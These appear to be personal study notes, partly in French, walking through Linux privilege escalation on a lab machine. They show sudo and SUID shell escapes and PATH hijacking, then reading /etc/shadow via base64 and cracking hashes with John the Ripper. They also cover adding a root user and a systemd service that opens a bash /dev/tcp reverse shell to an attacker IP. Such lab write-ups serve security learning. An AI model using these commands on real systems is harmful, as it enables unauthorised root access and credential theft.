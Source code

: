 
# Sudo -l

Grâce à la commande **`sudo -l`**, on peut récuperer les commandes que l'on peut éxecuter en sudo.

```shell
$ sudo -l
Matching Defaults entries for karen on ip-10-10-127-120:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-127-120:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

Ici on peut voir que l'utilisateur peut utiliser nano en sudoer.

On peut voir sur **[gtfobins](https://gtfobins.github.io/gtfobins/nano/)** qu'on peut effectuer une **élévation des privilèges** avec **Nano** en executant **`/bin/sh`** en **SPELL** mode. 

```shell
./nano -s /bin/sh
/bin/sh
^T
```

On peut ensuite voir qu'on passe en root.
# SUID
Much of linux priviledge controls rely on controlling the users and files interactions.
We do this with the permission, you have read write execute.
They are given by the creator of the file.
This change with **SUID** (Set-user Identification) and **SGID** (Set-group Identification).
These **allow files to be executed with the permission level of the file owner** or the group owner, respectively.

These files have an “s” bit set.
![[Pasted image 20241226095837.png]]
To find these file you can do this command:
```shell
find / -type f -perm -04000 -ls 2>/dev/null
```
or more digest
```bash
find / -perm -u=s -type f 2>/dev/null
```

This link https://gtfobins.github.io/#+suid show you the executable known to be exploitable with the SUID bit set.
## Other command
If you see that the suid command run another command like curl, you can use it to get a shell with his own priviledge:
```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=.:$PATH
/usr/bin/<COMMAND>
```
## Base64
Here for exemple, we have the base64 executable.  
https://gtfobins.github.io/gtfobins/base64/
![[Pasted image 20241226100542.png]]
### Check
We need to get the content of the `/etc/passwd` and `/etc/shadow` files
Without base64:
```bash
$ cat $LFILE
cat: /etc/shadow: Permission denied
```

With base64:
```bash
$ LFILE=/etc/shadow
$ base64 "$LFILE" | base64 --decode
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
...
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
```
### Unshadow
Now we will create a crackable file by **John the ripper** with **`Unshadow`**.
```bash
$ unshadow passwd.txt shadow.txt > password.txt
$ cat password.txt

root:*:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
...
lxd:!:998:100::/var/snap/lxd/common/lxd:/bin/false
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:1003:1003::/home/karen:/bin/sh
```

With the correct wordlist and a little luck, John the Ripper can return one or several passwords in cleartext.
#### John the ripper
First, let's get the hash:
```bash
$ grep -v '*\|!' password.txt > hash.txt
$ cat hash.txt

root:x:0:0:root:/root:/bin/bash
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:1001:1001::/home/gerryconway:/bin/sh
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:1002:1002::/home/user2:/bin/sh
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:1003:1003::/home/karen:/bin/sh
```
##### Crack the password
Next you can start the cracking:
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/10-million-password-list-top-1000000.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
test123          (gerryconway)
Password1        (karen)
Password1        (user2)
3g 0:00:00:01 DONE (2024-12-26 14:46) 2.013g/s 2748p/s 6872c/s 6872C/s 262626..12345678q
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now you can see that we get a password for **gerryconway**, it's **test123**.
##### Connect to the user
```bash
$ su gerryconway
Password:
$ whoami
gerryconway
```
### Add root user
We will need the hash value of the password we want the new user to have
![[Pasted image 20241226143043.png]]
And add it to the /etc/passwd
![[Pasted image 20241226143105.png]]Then connect to this user:
![[Pasted image 20241226143130.png]]
## Systemctl
https://gtfobins.github.io/gtfobins/systemctl/
If you don't have the permission to run sudo.
### Create the service
```bash
$ nano root.service
```
And put this code in:
```bash
[unit]  
Description=root  
  
[Service]  
Type=simple  
User=root  
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<you ip>/<you port> 0>&1'  
  
[Install]  
WantedBy=multi-user.target
```
### Setup listener
We can setup the listener with netcat
```bash
$ nc -lvnp <PORT>
Listening on 0.0.0.0 8080
```
### Run the service
First we have to enable the service
```bash
$ systemctl enable /tmp/root.service
```
Then start it
```bash
$ systemctl start root
```
